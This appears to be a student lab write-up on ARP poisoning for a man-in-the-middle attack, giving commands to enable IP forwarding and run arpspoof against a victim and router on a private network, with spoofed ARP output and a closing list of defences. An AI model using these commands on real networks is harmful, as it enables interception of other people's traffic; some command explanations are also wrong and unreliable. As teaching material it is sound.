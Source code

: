 # Man In the Middle (MITM) attach - ARP Poisioning

ARP poisoning is an attack wherein fake ARP reply packets are sent on the network. It can be further categorized into two possible attacks:
- Man in the middle (MITM)
- Denial of Service (DOS)

However, we will stick our experiment to MITM only.


## Modify Routing Status

File: /proc/sys/net/ipv4/ip_forward  

It signifies the routing of the packets to the current machine, which means all the packets going the router will also get delivered to the current address as well [1].

Command to modifying the status the routing of the packet:
```
// Mode changed to super user
sudo su
// Print 1
# echo 1 > /proc/sys/net/ipv4/ip_forward
// Concatenate 1 to 'ip_forward'
# cat /proc/sys/net/ipv4/ip_forward
```


## Perform packet spoof

Install **dsniff**: Library to perform the packet sniffing and spoofing
Command: `sudo apt-get install dsniff`

Command to spoof: 
`sudo arpspoof -i wlp2s0 -t 192.168.0.94 192.168.0.1`

Explanation: 
- wlp2s0: Device
- Victim Private IP: 192.168.0.94
- Router IP Address: 192.168.0.1

Output Screenshot:
![Screenshot](SpoofingResult.png)


Output:  
```
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
```

## After Spoofing

We cannot proceed further, because it would be illegal to go ahead and read someone's data, but this is not the end. There are several technique followed by a real attacker to make sense of the packet to take the security breach to the next level.


## Steps to overcome the ARP Poisoning

- Do not have a weak security mode for the Network, because it cannot prohibit unauthorized intrusion in the network.
- Having a weak password for the network security can be comprised if dealt with brute-force attack, or running authentication loop to authenticate with the commonly used words.
- Use CISCO routers that can help to examine the ARP spoofing.
- Detection Tools: ARP spoofing can be detected by the usage of the third-party tool like XArp
- Packet filtering and inspection can detect poisoned packets and catch them before reaching the destination (Or Attacker) [2].
- VPN can be relied upon to have a secure connections.
- Updated Browser with updated TLS/SSL.


## Reference

1. https://unix.stackexchange.com/questions/14056/what-is-kernel-ip-forwarding
2. https://www.indusface.com/blog/protect-arp-poisoning/